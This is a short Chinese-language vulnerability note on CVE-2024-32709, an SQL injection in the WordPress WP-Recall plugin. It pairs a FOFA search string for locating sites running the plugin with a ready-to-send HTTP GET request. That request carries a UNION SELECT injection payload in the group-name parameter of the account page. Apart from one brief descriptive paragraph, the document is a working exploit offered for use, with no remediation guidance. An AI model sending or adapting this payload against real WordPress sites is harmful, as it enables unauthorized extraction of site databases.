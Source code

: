 # WordPress插件Recall CVE-2024-32709 SQL注入漏洞

**fofa**

"/wp-content/plugins/wp-recall/"

**一、漏洞简述**

WordPress是一款免费开源的内容管理系统(CMS)，最初是一个博客平台，但后来发展成为一个功能强大的网站建设工具，适用于各种类型的网站，包括个人博客、企业网站、电子商务网站等，并逐步演化成一款内容管理系统软件。其插件WP-Recall其插件存在account存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
GET /account/?user=1&tab=groups&group-name=p%27+or+%27%%27=%27%%27+union+all+select+1,2,3,4,5,6,7,8,9,10,11,concat(%22Database:%22,md5(123456),0x7c),13--+- HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Connection: close



```

